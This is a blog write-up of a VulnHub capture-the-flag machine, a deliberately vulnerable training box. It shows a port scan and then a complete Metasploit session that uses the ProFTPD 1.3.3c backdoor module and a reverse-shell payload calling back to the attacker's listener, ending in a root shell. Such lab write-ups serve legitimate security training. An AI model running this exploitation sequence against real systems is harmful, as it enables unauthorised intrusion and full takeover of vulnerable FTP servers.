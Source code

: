 ```yaml
---
layout: post
title:  "Vulnhub: FUNBOX: SCRIPTKIDDIE"
date:   2021-08-01 19:00:00 +1000
category: hacking
---
```


This will be brief. It's [FUNBOX: SCRIPTKIDDIE](https://www.vulnhub.com/entry/funbox-scriptkiddie,725/) from VulnHub:

>As always, it's a very easy box for beginners.

## Ports
Quite a few:

PORT    STATE SERVICE      REASON
1. 21/tcp  open  ftp          syn-ack ttl 64
2. 22/tcp  open  ssh          syn-ack ttl 64
3. 25/tcp  open  smtp         syn-ack ttl 64
4. 80/tcp  open  http         syn-ack ttl 64
5. 110/tcp open  pop3         syn-ack ttl 64
6. 139/tcp open  netbios-ssn  syn-ack ttl 64
7. 143/tcp open  imap         syn-ack ttl 64
8. 445/tcp open  microsoft-ds syn-ack ttl 64

MAC Address: 08:00:27:72:B5:70 (Oracle VirtualBox virtual NIC)

But mostly for distraction.

## FTP
>21/tcp  open  ftp         syn-ack ttl 64 ProFTPD 1.3.3c

The [exploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor/) is 11 years old at this point. Might as well go with Metasploit:

{% highlight shell %}
msf6 > search proftpd

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/unix/ftp/proftpd_133c_backdoor

msf6 > use 5
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set rhosts funbox11
rhosts => funbox11
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads

Compatible Payloads
===================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1  payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2  payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   3  payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   4  payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   5  payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload 3
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.76     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set lhost 192.168.1.210
lhost => 192.168.1.210
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run

[*] Started reverse TCP double handler on 192.168.1.210:4444 
[*] 192.168.1.76:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo KUfdmeVRmhoY4TuN;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "KUfdmeVRmhoY4TuN\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.210:4444 -> 192.168.1.76:47352) at 2021-07-31 03:54:05 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
id
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
root@funbox11:/#
{% endhighlight %}

Yeeted and deleted.
